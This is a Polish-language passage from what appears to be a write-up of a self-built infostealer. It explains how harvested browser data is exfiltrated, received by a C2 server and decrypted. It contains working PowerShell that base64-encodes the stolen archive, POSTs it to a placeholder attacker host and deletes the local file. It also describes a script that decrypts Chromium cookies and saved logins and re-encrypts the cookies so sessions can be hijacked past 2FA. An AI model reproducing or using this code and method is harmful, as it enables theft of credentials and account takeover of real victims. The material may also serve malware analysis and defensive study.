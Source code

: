 Po zebraniu wszystkich danych, malware wysyła kompletne archiwum na serwer C2 oraz usuwa je z dysku lokalnego, poniższym fragmentem kodu:

    $fil="$env:localappdata\$compname.zip"
    $filu=[System.IO.File]::ReadAllBytes($fil)
    $fileBase64 = [System.Convert]::ToBase64String($filu)
    Invoke-RestMethod -uri "https://domena-atakujacego-lub-adres.ip/up.php" -method post -Headers @{"Content-Type"="application/octet-stream"} -Body $fileBase64
    Remove-Item -Path "$env:localappdata\$compname.zip"
Na tym extractor.ps1 kończy działanie. Dalsza część wykonuje się po stronie serwera, oraz maszyny atakującego.
### 2. Rola serwera C2
Serwer VPS udostępnia extractor.ps1 oraz przyjmuje wykradzione dane za pomocą serwera www apache. Został skonfigurowany tak, aby dostęp do niego był możliwy tylko po SSH, z uwierzytelnieniem za pomocą kluczy (fizyczny klucz Yubikey) na konto nieuprzywilejowane. Przy każdorazowym logowaniu wysyłany jest alert na email atakującego z informacją **whois** o adresie IP, z którego było logowanie.

 Przyjęcie danych realizuje formularz napisany w PHP, który po otrzymaniu requestu POST zmienia nazwę otrzymanego pliku na losową oraz pobiera adres IP ofiary.
Następnie generowane jest 24 znakowe hasło do archiwum, celem zabezpieczenia danych przed nieuprawnionym dostępem. Otrzymany plik ze zmienioną nazwą pakowany jest do zabezpieczonego hasłem archiwum o nazwie IP_ofiary.benc. Jeśli dany plik już istnieje, do nazwy doklejany jest aktualny timestamp. 
W dalszej części działania, serwer usuwa plik w formie jawnej oraz przenosi zaszyfrowany plik do bezpiecznej lokalizacji, wysyła maila do atakującego z hasłem do archiwum, nazwą pliku oraz adresem IP ofiary.

Na tym rola C2 w momencie pisania writeupu kończy się.

### 3. Działanie atakującego.
### a) CHROMIUM
Po otrzymaniu alertu mailowego, atakujący uwierzytelnia się po SSH na serwerze, za pomocą SCP pobiera zaszyfrowane archiwum i wypakowuje je do określonego folderu. By odszyfrować dane z Chromium, należy wykorzystać skrypt napisany w pythonie. Skrypt deszyfruje dowolną bazę danych, można wybrać, dla której przeglądarki ma działać, oraz, co ważne - tworzy nową bazę SQLite, z zaszyfrowanymi kluczem atakującego ciastkami. Jest to o tyle istotne, że żeby uzyskać dostęp do wszystkich witryn, na których była zalogowana ofiara, wystarczy jedynie podmienić plik z ciastkami w %localappdata% - po uruchomieniu przeglądarki, jest możliwe uwierzytelnienie się w serwisach, nawet omijając 2FA. Można też wyłuskać pojedyncze ciasteczka, otwierając plik Cookies_plain w dowolnej przeglądarce baz SQLite.

Działanie skryptu wygląda następująco:

 - Wyświetl opcje wyboru dla użytkownika: Dla której przeglądarki chcesz zdeszyfrować dane? 
 1- Brave, 2- Chrome, 3- Edge, 4- Opera 
 - Zapytaj użytkownika o klucz, którym są zaszyfrowane dane
 - Po uzyskaniu klucza, stwórz kopię bazy ciastek, przystąp do deszyfracji
 - Przystąp do szyfrowania danych tym razem kluczem użytkownika
 - Zapisz w Cookies_stolen 
 - Zapisz jawne ciastka w Cookies_plain
 - Przystąp do deszyfracji loginów i haseł
 - Zapisz zdeszyfrowane loginy i hasła w Logins_stolen

```mermaid
sequenceDiagram
Skrypt->>Użytkownik: 1- Brave, 2 - Chrome, 3 - Edge, 4 - Opera
Użytkownik-->>Skrypt: 2
Skrypt->>Użytkownik: Podaj klucz dla Chrome
Użytkownik-->>Skrypt: 3C3C2F41439F83AD56FD70B1A8C9DB7B0DC612FDDBBFEAC26E04DXXXXXXXXXXX
Skrypt->>Użytkownik: Tworzę kopię bazy (plik Cookies_stolen) oraz deszyfruję każdy wiersz pola "encrypted_value"
Skrypt->>Użytkownik: odszyfrowaną wartość zapisuję do pliku Cookies_plain
Skrypt->>Użytkownik: Szyfruje uzyskane wartości kluczem użytkownika i aktualizuje pole "encrypted_value" w bazie Cookies_stolen
Skrypt->>Użytkownik: Deszyfruję loginy oraz hasła i zapisuje je do Logins_stolen w plaintext.
```
